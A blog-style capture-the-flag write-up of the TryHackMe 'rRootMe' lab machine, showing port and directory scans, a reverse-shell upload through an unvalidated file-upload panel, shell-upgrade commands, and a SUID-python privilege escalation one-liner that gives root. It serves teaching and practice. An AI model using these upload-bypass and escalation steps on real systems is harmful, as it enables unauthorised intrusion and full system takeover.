



_**Sep 09, 2020**_

## Overview

this is a quick writeup, explaining how we got inside [rRootMe](https://tryhackme.com/room/rrootme) machine from [tryhackme](https://tryhackme.com/).

## Target Informations

```
Domain name : rrootme.htb
ip address  : 10.10.128.17
Dificulty   : easy
Description : A ctf for beginners, can you root me?
```

<br>

## External Enumeration

**Port Scaning**
i'll be using **nmap** as regular:
```
 nmap -v -sC -sV -oN nmap/nmap_tcp_simple 10.10.128.17
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Directory Brute Forcing**
```
m3dsec@local:~/rrootme.htb$ ffuf -c -u http://10.10.128.17/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt 
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
:: Progress: [62275/62275] :: Job [1/1] :: 238 req/sec :: Duration: [0:04:21] :: Errors: 3 ::
```
**panel** and **uploads** Directories seems interstings

<br>

## File Upload Vulnerability (Direct file upload)

visiting **uploads** folder, we get a Directory listing, that let us see what the folder contain, well its empty for now LOL



<br>

also the **Panel directory** has an Upload function



<br>

the server **does not** validate the type of files being uploaded (phtml at least, maybe other extentions too), therefor we can upload our malicious file to get a code execution on the server.

i'll be uploading a [reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), with a **.phtml** extention

sounds like the file has been uploaded


<br>

and we successfully got a reverse shell




<br>


## Internal Enumeration

**Getting a Full interactive shell**

lets 1st Upgrade to a full interactive shell with python pty module
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty -echo raw
fg
stty rows 41 columns 166
```

<br>


### Binary Files with SUID Permission

while searching for **suid** files, we got a good list, and python is a one of them,

```
www-data@rootme:/home$ find / -perm /4000 2>/dev/                                                                           
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
...
/usr/bin/python
...
/usr/bin/chfn
/usr/bin/gpasswd
```


```
www-data@rootme:/home$ ls -lat /usr/bin/python 
-rwsr-sr-x 1 root root 3665768 Aug  4 17:47 /usr/bin/python
```

<br>


### Privelege Escalation

we can easly escalate our priveleges, [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) got a good set of priv escalation methods we can use.

```
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cat /root/root.txt
THM{REDACTED}
```
<br>
Best Regards

[m3dsec](https://twitter.com/m3dsec).

<br>
<br>

[back to main()](../../index.md)

<br>
<br>
